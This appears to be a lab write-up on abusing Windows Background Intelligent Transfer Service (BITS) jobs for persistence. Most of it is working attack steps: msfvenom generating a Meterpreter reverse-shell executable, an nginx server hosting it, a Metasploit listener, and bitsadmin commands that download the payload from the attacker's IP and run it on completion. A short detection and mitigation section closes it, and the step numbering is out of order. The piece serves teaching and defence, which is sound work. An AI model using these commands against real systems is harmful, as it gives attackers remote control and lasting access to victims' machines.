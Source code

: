 # Exploiting BITS Jobs for Persistence

## 1. Introduction

Background Intelligent Transfer Service (BITS) is a Windows service designed for low-bandwidth, asynchronous file transfers. It is commonly used by Windows Update, messaging applications, and other background services that require efficient file transfer without disrupting network performance. However, adversaries can abuse BITS jobs for malicious purposes, including persistent code execution, downloading and executing payloads, and exfiltrating data.

---

## 2. Understanding BITS Jobs and Why They Are Exploitable

BITS operates by creating and managing jobs that handle file transfers. These jobs can be configured to:
- Download and execute files
- Run commands upon completion or failure
- Store job configurations in a database, avoiding registry modifications
- Persist across reboots with a default maximum lifetime of 90 days (extendable)

The BITS interface can be accessed via:
- PowerShell (`Start-BitsTransfer`, `Get-BitsTransfer`)
- BITSAdmin tool (`bitsadmin /transfer`)

Since BITS jobs are often allowed by host firewalls and do not create obvious new files, they provide a stealthy mechanism for attackers to execute malicious code and maintain persistence on a target system.

---

## 3. Attack Scenario: Persistence via BITS Jobs

### 3.1. Lab Setup

This attack is demonstrated in a controlled lab environment using VMware Workstation. The setup consists of:
- **Attacker:** Kali Linux : 192.168.100.10 (running Metasploit Framework)
- **Victim:** Windows 10: 192.168.1.11 (BITS service enabled)
- **Network Configuration:** NAT

### 3.2. Attack Execution

#### Step 1: Using Metasploit to create payload
On Kali Linux, open a terminal and generate a malicious executable:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.10 LPORT=4444 -f exe > /tmp/payload.exe
```
#### Step 3: Send Payload through Nginx Server
```bash
cd /tmp
sudo apt install nginx -y
sudo cp payload.exe /var/www/html/
sudo systemctl restart nginx
```
Setting Up a Listener on Kali Linux

To capture the reverse shell, the attacker sets up a Metasploit listener:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.10
set LPORT 4444
exploit
```
When the victim executes the payload, a Meterpreter session is established, giving the attacker control over the compromised system.
#### Step 2: Creating a Malicious BITS Job

On the compromised Windows machine, the attacker executes PowerShell commands to create a persistent BITS job:
```powershell
bitsadmin /create test
bitsadmin /addfile test "http://192.168.100.10:8080/payload.exe" "C:\Users\Public\payload.exe"
bitsadmin /SetNotifyCmdLine test "C:\Windows\System32\cmd.exe" "/c bitsadmin /complete test & start C:\Users\Public\payload.exe"
bitsadmin /resume test
```
This command sequence:
- Downloads a payload from the attacker's server
- Saves it to a writable directory (`C:\Users\Public\`)
- Configures the job to execute the payload once the transfer is complete
- Resumes the job to trigger execution

![Image](https://github.com/user-attachments/assets/072fa4a7-450e-4eff-9249-08c5083ba574)
![Image](https://github.com/user-attachments/assets/93cc2eb1-0b21-42b2-8c90-666403c5a4be)

#### Step 3: Achieving Persistence

Since BITS jobs persist in the system’s job queue, they remain active even after reboots. To confirm persistence, the attacker can run:
```powershell
Get-BitsTransfer | Format-Table -AutoSize
```
If the system is restarted, the job will still exist, allowing the payload to be re-executed.

---


## 4. Detecting and Mitigating BITS Job Abuse

### 4.1. Detection

Administrators can monitor for suspicious BITS jobs by running:
```powershell
Get-BitsTransfer -AllUsers | Select-Object -Property DisplayName, JobState, Owner, TransferType, NotifyCmdLine
```
Additionally, security logs and endpoint detection tools can help identify unexpected BITS activity.

### 4.2. Mitigation

To remove suspicious BITS jobs, execute:
```powershell
Get-BitsTransfer | Remove-BitsTransfer
```
To further secure the system:
- Restrict BITS job creation to trusted applications using Group Policy
- Monitor and log BITS activity for anomalous behavior
- Use application whitelisting to prevent unauthorized execution

---

## 5. Conclusion

BITS Job Persistence is a stealthy technique that attackers can use to maintain access on a Windows system. By leveraging the native BITS service, adversaries can execute payloads, evade detection, and maintain persistence without modifying the registry or creating new scheduled tasks. Understanding this technique is crucial for defenders to detect and mitigate such attacks effectively.
